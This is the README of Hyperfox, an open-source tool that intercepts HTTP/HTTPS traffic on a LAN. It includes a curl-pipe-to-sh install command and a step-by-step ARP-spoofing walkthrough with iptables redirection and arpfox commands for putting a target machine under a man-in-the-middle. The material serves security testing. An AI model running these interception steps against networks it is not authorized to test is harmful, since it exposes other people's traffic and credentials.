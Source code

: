 # Hyperfox

[![Build Status](https://travis-ci.org/malfunkt/hyperfox.svg?branch=master)](https://travis-ci.org/malfunkt/hyperfox)

[Hyperfox][1] is a security tool for proxying and recording HTTP and HTTPs
communications on a LAN.

![Hyperfox diagram](https://hyperfox.org/images/hyperfox-diagram.png)

Hyperfox is capable of forging SSL certificates on the fly if you provide it
with a root CA certificate and its corresponding key. If the target machine
recognizes the root CA as trusted, then HTTPs traffic can be successfully
decrypted, intercepted and recorded.

![Hyperfox SSL](https://hyperfox.org/images/hyperfox-ssl.png)

This is the development repository, check out the [https://hyperfox.org][1]
site for usage information.

## Get `hyperfox`

You can install hyperfox to `/usr/local/bin` with the following command (requires
admin privileges):

```sh
curl -sL 'https://raw.githubusercontent.com/malfunkt/hyperfox/master/install.sh' | sh
```

You can also grab the latest release from our [releases
page](https://github.com/malfunkt/hyperfox/releases) and install it manually into
another location.

## Build it yourself

In order to build `hyperfox` you'll need Go and a C compiler:

```sh
go install github.com/malfunkt/hyperfox
```

## Running hyperfox and arpfox on Linux

The following example assumes that Hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the [arpfox][4] tool to alter the ARP table of the target
machine in order to make it redirect its traffic to Hyperfox instead of to the
legitimate LAN gateway. This is an ancient technique known as [ARP
spoofing][6].

First, identify both the local IP of the legitimate gateway and its matching
network interface.

```sh
sudo route
# Kernel IP routing table
# Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
# default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
# ...
```

The interface in our example is called `wlan0` and the interface's gateway is
`10.0.0.1`.

```sh
export HYPERFOX_GW=10.0.0.1
export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```sh
export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```sh
sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule on the host to instruct it to redirect all traffic
that goes to port 80 (commonly HTTP) to a local port where Hyperfox is
listening to (1080).

```sh
sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 1080
```

We're almost ready, prepare Hyperfox to receive plain HTTP traffic:

```sh
hyperfox
# ...
# 2014/12/31 07:53:29 Listening for incoming HTTP client requests on 0.0.0.0:1080.
```

Finally, run `arpfox` to alter the target's ARP table so it starts sending its
network traffic to the host box:

```sh
sudo arpfox -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

and watch the live traffic coming in.

## Contributing to Hyperfox

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-today José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: https://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: https://github.com/malfunkt/arpfox
[5]: http://git-scm.com
[6]: https://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/malfunkt/hyperfox/issues
